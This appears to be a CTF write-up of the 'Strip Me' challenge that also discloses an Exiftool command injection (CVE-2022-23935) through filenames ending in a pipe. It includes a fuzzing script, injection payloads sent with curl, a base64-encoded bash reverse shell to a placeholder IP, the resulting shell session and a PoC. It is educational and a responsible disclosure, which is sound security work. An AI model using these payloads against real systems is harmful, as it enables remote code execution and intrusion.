


## Challenge Description

Santa wants to make sure he doesn't leak the location of his secret base through image metadata. Therefore, he uses this web service to strip metadata from his photos before publishing them. But he isn't sure whether it's secure. Can you tell him?

## Overview

We are given a website that takes an image and returns it striped of it's metadata, but we don't have the site's source code.
After a bit of web fuzzing, we find that the `filename` parameter is vulnerable to command injection, which we can use to get a shell on the machine and grab the flag.

After getting the flag, I poked around the box and realized I didn't do the challenge the intended way. Instead of injecting commands into the challenge's code, I found I was actually injecting commands into [Exiftool](https://exiftool.org), a program commonly used to read, edit, (and in this case) strip images of their metadata. 

If you use Exiftool, you should update it to version 12.38 and above. Details of the vulnerability are [below](#vulnerability).

## Writeup

We're given the url `http://stripme.advent2021.overthewire.org:1208/` which takes you to the following page:



Initial enumeration didn't reveal much, the site is not much more than a basic image upload form and the backend seemed to be using python.

Trying a bunch of different files, it looks like we need a valid image, but the filename is very flexible. Uploading an image named, for example, `ida.7z` works just fine.

Whipping up a quick and dirty script to fuzz the filename parameter: 

```bash
#!/bin/bash
while read c;
do
	fn=pl.jpg$c
	cp pl.jpg $fn
	echo -n "$fn => "
	echo $(curl -v -F "file=@$fn" http://stripme.advent2021.overthewire.org:1208/ 2>&1 1>/dev/null \
               | sed -n "s/.*filename=//p")
    rm $fn
done < special-chars.txt
```

We get it's output:

```
$ ./fuzz.sh
pl.jpg~ => pl.jpg~                                           
pl.jpg! => pl.jpg!
pl.jpg@ => "pl.jpg@"
pl.jpg# => pl.jpg#
pl.jpg$ => pl.jpg$
pl.jpg% => pl.jpg%
pl.jpg^ => pl.jpg^
pl.jpg& => pl.jpg&
cp: target 'pl.jpg$' is not a directory
pl.jpg* => 
pl.jpg( => "pl.jpg("
pl.jpg) => "pl.jpg)"
pl.jpg- => pl.jpg-
pl.jpg_ => pl.jpg_
pl.jpg+ => pl.jpg+
pl.jpg= => "pl.jpg="
pl.jpg{ => "pl.jpg{"
pl.jpg} => "pl.jpg}"
pl.jpg] => "pl.jpg]"
pl.jpg[ => "pl.jpg["
pl.jpg| => 
pl.jpg` => pl.jpg`
pl.jpg, => 
pl.jpg. => pl.jpg.
cp: target 'pl.jpg$' is not a directory
pl.jpg? => 
pl.jpg; => pl.jpg
pl.jpg: => "pl.jpg:"
pl.jpg' => 
pl.jpg" => "pl.jpg\""
pl.jpg< => "pl.jpg<"
pl.jpg> => "pl.jpg>"
```

You can see a few errors in the script where bash interpreted `*` and `?` as wildcards and tried to use an existing file.
 
Also `curl` has trouble with `,` and `;` because it uses those characters to parse its `-F`orm argument.

Which leaves us with two interesting results where the webserver doesn't return: `pl.jpg'` and `pl.jpg|`. 

The single quote (`'`) is the classic injection character. Often closing a user-supplied string for a SQL query or OS command, an extra single-quote might be causing this query to error out with mismatched quotes.

But the pipe character (`|`) erroring out is also very interesting, particularly when placed at the end of the filename. I first learned in the later [Natas](https://overthewire.org/wargames/natas/) levels on OverTheWire, and more recently in the privesc for [Pikaboo](https://www.youtube.com/watch?v=4tXFHoeOytE&t=2120) on HackTheBox, that a pipe character at the end of a filename can be used to exploit [Perl's two argument open](https://wiki.sei.cmu.edu/confluence/pages/viewpage.action?pageId=88890543).

In Perl, if you don't specify whether to read "<" or write ">" to a file, `open` will interpert a filename that starts or ends with a pipe as a command to be executed and piped as data. For example:

```perl
open(FD, 'date |');

while(<FD>){
    print $_;
}
```
will not open and print the contents of a file literally named `date |`, but instead run the command `date` and read its output as it would a file's contents.

It would be strange for a Perl vulnerability to be in a challenge written in Python. But searching for "strip image metadata command" returns many results for Exiftool, a program written in Perl. 

Hmm... Quite a choice for how to proceed: 



> Either you take the quote-pill, the story ends, and you wake up in your bed believing vulns only exist in CTFs. Or you take the pipe-pill, stay in wonderland, and see how deep the call stack goes. 

Playing around with the filename ending in a pipe, and I quickly got command injection.  The follow command took 5 seconds to return:

```bash
curl -v -F "file=@test.jpg;filename=sleep 5 |" http://stripme.advent2021.overthewire.org:1208/
```

Though if you use any `/` character in your filename, the server errors out with:

```
Hacking attempt detected. This incident will be reported!
```

Using base64 encoding, we can get a bash reverse shell without `/`s:

```
$ echo "bash -c 'bash -i >& /dev/tcp/my.ip.ad.dr/9001 0>&1'" | base64 
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC9teS5pcC5hZC5kci85MDAxIDA+JjEnCg==
$ curl -v -F "file=@test.jpg;filename=echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC9teS5pcC5hZC5kci85MDAxIDA+JjEnCg== | base64 -d | bash |" http://stripme.advent2021.overthewire.org:1208/
```

```
$ nc -lp 9001
nobody@9d3db3f6a3ad:/opt/strip_me$ id
id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
nobody@9d3db3f6a3ad:/opt/strip_me$ ls
ls
flag
server.py
static
templates
uploads
nobody@9d3db3f6a3ad:/opt/strip_me$ cat flag	
cat flag 
AOTW{uPl0aD_y0uR_iMaG3S_t0_tH3_Int3rN3T_f0r_MaX1MuM_pR1VaCy}
```

## Exploring the challenge

Well that was weird...


> Have you ever found a vuln in a CTF you were so sure was real? What if you were unable to verify that vuln? How would you know the difference between the real vuln and the CTF vuln? 

> This can't be...

> Be what? Be a real vuln? 

Now that we have a shell on the machine, let's poke around and see how the challenge actually works. Here is the main logic from [server.py](files/server.py):

```python
exif_command = "exiftool -overwrite_original -all= '{}'"

@app.route('/', methods = ['POST'])
def strip_file():

    try:
        f = request.files['file']
    except:
        return render_template(index,error="File missing")

    filename = unquote(f.filename)

    if any(hack_char in filename for hack_char in ['/']):
        return render_template(index,error="Hacking attempt detected. This incident will be reported!")

    file_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
    f.save(file_path)

    # ...

    try:
        img = Image.open(file_path)
        img.verify()
    except:
        return render_template(index,error="File is not a valid image")

    return_value = os.system(exif_command.format(file_path))
    
    # ...
```

So it seems the intended solution *was* to use the single-quote to escape out of the `exif_command` when being passed to `os.system`! A bit of a challenge blind and with some constraints, but it didn't seem intentional to do command injection into Exiftool itself. 

Let's check the version of Exiftool on the machine.

```
nobody@9d3db3f6a3ad:/opt/strip_me$ head -10 /usr/bin/exiftool
#!/usr/bin/perl -w
#------------------------------------------------------------------------------
# File:         exiftool
#
# Description:  Read/write meta information

...

my $version = '11.88';
```

This was the most recent version in the Ubuntu package manager at the time, though not the most recent version of Exiftool. So after the CTF was over, I downloaded the most recent version and confirmed the vulnerability. Here is a PoC: 

```
$ ls pwn
ls: cannot access 'pwn': No such file or directory
$ ./exiftool 'touch pwn |' 
Error: File not found - touch pwn |
$ ls pwn
ls: cannot access 'pwn': No such file or directory
$ touch 'touch pwn |' 
$ ./exiftool 'touch pwn |' 
ExifTool Version Number         : 12.37
File Name                       : touch pwn |
Directory                       : .
File Size                       : 0 bytes
File Modification Date/Time     : 2021:12:19 14:28:45-06:00
File Access Date/Time           : 2021:12:19 14:28:45-06:00
File Inode Change Date/Time     : 2021:12:19 14:28:45-06:00
File Permissions                : prw-------
Error                           : File is empty
$ ls pwn 
pwn
```

The one major requirement I found was that the file needed to exist on the machine for the vulnerability to be triggered, or else Exiftool would error out with `File not found`. The "Strip Me" challenge copied the file to disk with the same filename before running Exiftool, satisfying this requirement. 


> This is the world that you know, the world that exists at ctftime.org

> It exists now as part of a neural interactive simulation that we call "computer gaming"

> You've been living in a dream world - *this* is the world as it exists today

> Welcome to the Desert of the Real-Life vulnerabilities

I emailed Phil Harvey, the creator of Exiftool, with the above information and a fix was released with [version 12.38](https://github.com/exiftool/exiftool/commit/74dbab1d2766d6422bb05b033ac6634bf8d1f582) within 24 hours. 

I was told by some online hacker friends to request a CVE. It was assigned [CVE-2022-23935](https://www.cve.org/CVERecord?id=CVE-2022-23935) and [NIST](https://nvd.nist.gov/vuln/detail/CVE-2022-23935) gave it a CVSS of 9.8. 

Finally here is a more formal write-up with a peak at Exiftool's code:

## Vulnerability

### Overview

Exiftool versions < 12.38 are vulnerable to Command Injection through a crafted filename. If the filename passed to exiftool ends with a pipe character `|` and exists on the filesystem, then the file will be treated as a pipe and executed as an OS command. 

### Description 

[Exiftool](https://exiftool.org) is a "a platform-independent Perl library plus a command-line application for reading, writing and editing meta information in a wide variety of files." One of its features is being able to read metadata of compressed images. The code for this is `GetImageInfo` in `exiftool`:

```Perl
sub GetImageInfo($$)
{
# ...
    if ($doUnzip) {
        # pipe through gzip or bzip2 if necessary
        if ($file =~ /\.(gz|bz2)$/i) {
            my $type = lc $1;
# ...
            if ($type eq 'gz') {
                $pipe = qq{gzip -dc "$file" |};
            } else {
                $pipe = qq{bzip2 -dc "$file" |};
            }
        }
    }
```

`$pipe` is eventually passed to `Open` in `lib/Image/ExifTool.pm`, which sets the file mode to read only (`<`), unless the last character is `|`. When the mode is not set and the last character is a `|`, [Perl's two argument open](https://wiki.sei.cmu.edu/confluence/pages/viewpage.action?pageId=88890543) will execute the command and "open" the command's output for reading, in this case to allow the gzip or bzip2 wrapper.

```Perl
sub Open($*$;$)
{
    my ($self, $fh, $file, $mode) = @_;
    $file =~ s/^([\s&])/.\/$1/; # protect leading whitespace or ampersand
    # default to read mode ('<') unless input is a pipe
    $mode = ($file =~ /\|$/ ? '' : '<') unless $mode;
# ...
    return open $fh, "$mode$file";
}
```

Unfortunately there is no check that the pipe to open comes from a trusted command like `gzip -dc "$file" |` in `GetImageInfo`. An attacker can pass a filename that ends with a pipe (`|`) to exiftool and if it exists on the filesystem, execute it as an operating system command. 

### Proof of Concept

```
$ ls pwn
ls: cannot access 'pwn': No such file or directory
$ touch 'touch pwn |'
$ ./exiftool 'touch pwn |'
ExifTool Version Number         : 12.37
File Name                       : touch pwn |
Directory                       : .
File Size                       : 0 bytes
File Modification Date/Time     : 2022:01:18 18:40:18-06:00
File Access Date/Time           : 2022:01:18 18:40:18-06:00
File Inode Change Date/Time     : 2022:01:18 18:40:18-06:00
File Permissions                : prw-------
Error                           : File is empty
$ ls pwn
pwn
```

## Final Thoughts 

Just wanted to say thanks to:

Phil Harvey for building and maintaining Exiftool and issuing a very quick fix

[Semchapeu](https://twitter.com/semchapeu) for the great challenge

b0bb, Steven, and the great community at [overthewire.org](overthewire.org)